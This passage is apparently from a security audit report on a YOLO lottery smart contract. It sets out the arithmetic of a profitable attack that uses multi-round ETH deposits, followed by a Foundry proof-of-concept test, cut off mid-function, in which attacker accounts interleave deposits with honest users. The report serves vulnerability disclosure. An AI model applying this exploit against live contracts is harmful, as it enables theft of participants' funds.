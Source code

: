 (``0,0125 ETH`` + ``0.025 ETH`` ) / 2 = ``0.01875 ETH``. So the attacker can win ``0.25ETH`` - ``0.01875 ETH`` = ``0.23125ETH``. The attack becomes profitable if there are at least two users in the round that the attacker can game. This way he will have to pay ``0.0125 ETH`` in LOOKs for the second round that he has to win and ``0.001ETH`` / 2 = ``0.0005ETH``  for the round where he games users in order to win. But he will win ``20000000000000000`` = ``0,02ETH``

NOTE: The parameters described in this report have nothing to do with the actual root of the issue, they are used to clarify the attack and the profitability of it. An arbitrary set of different parameters will result in the same issue. If the protocol fee becomes some astronomical % then the attack may not be profitable. However very few people will use the protocol if the protocol fee is 50%.

## Proof of Concept
[Gist](https://gist.github.com/AtanasDimulski/a8f28e9f268a9ab51471664b6703e8b5)
After following the steps in the above gist add the following to the ``AuditorsTest.t.sol``
```solidity
function test_MaliciousUserCanWinAllRounds() public {
        vm.startPrank(alice);
        vm.deal(alice, valuePerEntryVariable);
        yoloV2.deposit{value: valuePerEntryVariable}(1, _emptyDepositsCalldata());
        vm.stopPrank();

        vm.startPrank(attacker);
        vm.deal(attacker, valuePerEntryVariable);
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 0;
        amounts[1] = valuePerEntryVariable;
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amounts);
        vm.stopPrank();

        vm.startPrank(bob);
        vm.deal(bob, valuePerEntryVariable);
        yoloV2.deposit{value: valuePerEntryVariable}(1, _emptyDepositsCalldata());
        vm.stopPrank();

        vm.startPrank(attacker1);
        vm.deal(attacker1, valuePerEntryVariable);
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amounts);
        vm.stopPrank();

        vm.startPrank(tom);
        valuePerEntryVariable;
        vm.deal(tom, valuePerEntryVariable);
        yoloV2.deposit{value: valuePerEntryVariable}(1, _emptyDepositsCalldata());
        vm.stopPrank();

        vm.startPrank(attacker2);
        vm.deal(attacker2, valuePerEntryVariable);
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amounts);
        vm.stopPrank();

        vm.startPrank(john);
        vm.deal(john, valuePerEntryVariable);
        yoloV2.deposit{value: valuePerEntryVariable}(1, _emptyDepositsCalldata());
        vm.stopPrank();

        vm.startPrank(attacker3);
        vm.deal(attacker3, valuePerEntryVariable);
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amounts);
        vm.stopPrank();

        /// @notice simulate returning random word 
        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 2345782359082359082359082359239741234971239412349234892349234;

```